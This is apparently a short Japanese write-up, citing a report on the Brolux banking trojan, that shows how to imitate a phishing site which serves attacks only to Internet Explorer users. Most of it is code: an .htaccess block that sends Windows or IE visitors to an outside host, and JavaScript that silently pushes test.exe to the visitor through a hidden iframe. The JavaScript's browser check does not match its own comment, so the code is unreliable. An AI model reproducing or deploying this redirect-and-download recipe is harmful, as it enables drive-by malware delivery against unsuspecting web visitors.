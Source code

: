 http://www.welivesecurity.com/2015/10/15/brolux-trojan-targeting-japanese-banks/

　このサイトはChromeユーザーなどには普通のフィッシングサイトに見えますが、
IEの場合だけ0dayを仕掛けるフィッシングサイトです。それを簡単に真似するに
は二つの方法があります。

```
####################################
####.htaccessによるUserAgent制限####
####################################
#OSがwindowsでブラウザがIEの場合ruffnex.oc.toにリダイレクトする

<Files ~ "^\.ht">
deny from all
</Files>

RewriteEngine On

SetEnvIfNoCase User-Agent "Windows"         ua_os=windows
SetEnvIfNoCase User-Agent "Mac.*OS"         ua_os=macos
SetEnvIfNoCase User-Agent "Linux"           ua_os=linux
SetEnvIfNoCase User-Agent "BSD"             ua_os=linux
SetEnvIfNoCase User-Agent "Android"         ua_os=android

SetEnvIfNoCase User-Agent "Safari"          ua_browser=safari
SetEnvIfNoCase User-Agent "(MSIE|Trident)"  ua_browser=ie
SetEnvIfNoCase User-Agent "Chrome"          ua_browser=chrome
SetEnvIfNoCase User-Agent "Firefox"         ua_browser=firefox
SetEnvIfNoCase User-Agent "Opera"           ua_browser=opera

RewriteBase /

RewriteCond %{REQUEST_URI} !^http://ruffnex.oc.to/.*$
RewriteCond %{ENV:ua_os} windows [OR]
RewriteCond %{ENV:ua_browser} ie
RewriteRule ^(.*)$ http://ruffnex.oc.to/$1 [R,L]
##################################################################################################
##################################################################################################
##################################################################################################
```

　同様のことがJavascriptでも可能です。

```
######################################
####javascriptによるUserAAgent制限####
######################################
#UserAgentがIEの場合だけtest.exeをダウンロードする

<script>
var downloadURL = function downloadURL(url) {
var hiddenIFrameID = 'hiddenDownloader',
iframe = document.getElementById(hiddenIFrameID);
if (iframe === null) {
iframe = document.createElement('iframe');
iframe.id = hiddenIFrameID;
iframe.style.display = 'none';
document.body.appendChild(iframe);
}
iframe.src = url;
};
var ua = window.navigator.userAgent;
if( ua.indexOf("Mozilla/5.0") != -1 ){
alert(1);
downloadURL('./test.exe');
}
```